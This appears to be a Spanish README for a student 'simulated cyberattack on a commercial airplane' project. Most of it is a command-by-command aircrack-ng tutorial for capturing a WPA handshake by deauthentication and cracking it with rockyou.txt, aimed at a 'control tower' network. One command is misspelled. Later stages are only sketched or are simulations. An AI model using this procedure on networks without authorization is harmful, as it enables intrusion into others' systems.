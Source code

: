 # Simulación de ciberataque a un avión comercial

El ataque consta de 3 etapas:
1. Acceso a la red Wi-Fi de la torre de control mediante fuerza bruta
2. A través de la conexión a la red Wi-Fi, detectar alguna máquina con control remoto activado y acceder a ella
3. Utilizando la máquina anteriormente secuestrada, alterar señales del avión

## Etapa 1: Acceso a la red Wi-Fi de la Torre de Control
En un computador con sistema operativo Linux (puede ser cualquier distribución: Ubuntu, Kali, etc.) descargar el diccionario de contraseñas `rockyou.txt`. Este se puede descargar en el primer enlace que se obtiene al buscar "rockyou descargar" en Google, correspondiente a un link de GitHub.

> [!IMPORTANT]
> Dado que para esta etapa necesitamos una interfaz de red, debemos realizar este procedimiento desde una máquina Linux, es decir, no es posible realizarlo desde una Virtual Machine. En caso de contar únicamente con una computadora Windows, se recomienda instalar Linux en Dual Boot.

Luego, en la terminal de la misma computadora ejecutar los siguientes comandos:
```
cd Descargas/
mv rockyou.txt ../Escritorio/
cd ../Escritorio/
```

> [!NOTE]
> Si el computador está configurado en inglés, debe reemplazar "Descargas" por "Downloads" y "Escritorio" por "Desktop"

```
mkdir wifi_pentest
mv rockyou.txt wifi_pentest/
cd wifi_pentest/
```

Con esto, habremos:
1. Descargado el diccionario de contraseñas `rockyou.txt`
2. Situado dicho diccionario en una carpeta llamada `wifi_pentest` en el Escritorio del computador

Ahora, ejecutamos el siguiente comando para descargar el paquete que nos ayudará a realizar el ataque de fuerza bruta
```
sudo apt install aircrack-ng
```

Una vez instalado, buscamos el nombre de la interfaz de red de la computadora ejecutando el siguiente comando
```
iwconfig
```

Anotamos el nombre de nuestra interfaz de red, el cual seguiremos utilizando a lo largo de todo el proceso.
```
sudo airmon-ng start <nombre_interfaz>
```

Con esto habremos activado el monitor de nuestra interfaz de red. Notarás que, si estabas conectado a Wi-Fi, se desconectará y no te permitirá activar el Wi-Fi.
```
sudo airodump-ng <nombre_interfaz>mon
```

Con esto, se mostrarán las redes Wi-Fi que nuestra computadora detecta. Buscamos la fila en la que aparece nuestra red Wi-Fi objetivo y copiamos el número que tiene en la columna BSSID. Además, memoriazamos el canal, el cual está en la columna "CH".

> [!TIP]
> En caso de que tu computadora detecte muchas redes, probablemente tu red objetivo no estará en pantalla mucho tiempo. Para ello, se recomienda grabar la pantalla para poder poner pausa al video y poder encontrar los datos que necesitamos de nuestra red objetivo.

```
sudo airodump-ng -c <CH> --bssid <BSSID> -w pentest <nombre>mon
```

El nombre `pentest` puede ser otro, aquí se guardará el tráfico de nuestra red objetivo.

Ahora, esperamos a que un dispositivo utilice la red y copiamos el valor de la columna STATION.

Dejamos ese código corriendo y, en otra pestaña de la terminal, escribimos:

```
sudo aireplay-n -0 9 -a <BSSID> -c <STATION> <nombre_interfaz>mon
```

Ejecutamos ese código 3-4 veces aproximadamente hasta que, en la primera pestaña de la terminal, aparezca un valor al lado de "WPA handshake" y presionamos `CTRL+C` para salir de esta ejecución.

Con el siguiente comando vemos los archivos que se han generado en la carpeta `Escritorio/wifi_pentest/`
```
ls
```

De estos archivos, nos interesa el archivo llamado `pentest-01.cap`.

Ahora, ejecutamos el siguiente código:

```
sudo aircrack-ng -b <handshake> -w rockyou.txt pentest-01.cap
```

Con esto, comienza el ataque por fuerza bruta. Trascurridos varios minutos (alrededor de 30), en un caso exitoso, en la terminal se mostrará la contraseña de nuestra red objetivo. Ahora solo falta activar nuestra interfaz Wi-Fi:
```
sudo airmon-ng stop <nombre_interfaz>mon
```

## Etapa 2: Detectar una máquina de la torre de control y acceder a ella mediante control remoto

Esta etapa debe realizarse desde una máquina Kali Linux.

> [!IMPORTANT]
> La máquina objetivo (es decir, la computadora a secuestrar) debe tener sistema operativo Windows y debe tener activada la opción de control remoto.

> [!NOTE]
> Una vez generado el acceso remoto a la computadora, la pantalla de esta en la torre de control se pondrá en negro, lo que podría dar pistas de que está ocurriendo un ciberataque.

## Etapa 3: Utilizando la máquina secuestrada, alterar las funciones del avión

Se presentan tres alternativas:
* Escribir un software que simule los subsistemas del avión utilizando Dockers y comunicándolos entre sí mediante RabbitMQ. Utilizando herramientas de Pentesting, analizar y explotar las vulnerabilidades de este sistema.
* Hacer un montaje de un ataque, escribiendo un programa simple en Python que reciba un input y, a partir de este, muestre videos emulando un ataque.
* Escribir un software más simple que la primera opción, el cual simule la comunicación entre el avión y la torre de control. Con el ataque a la computadora, desactivar la comunicación.

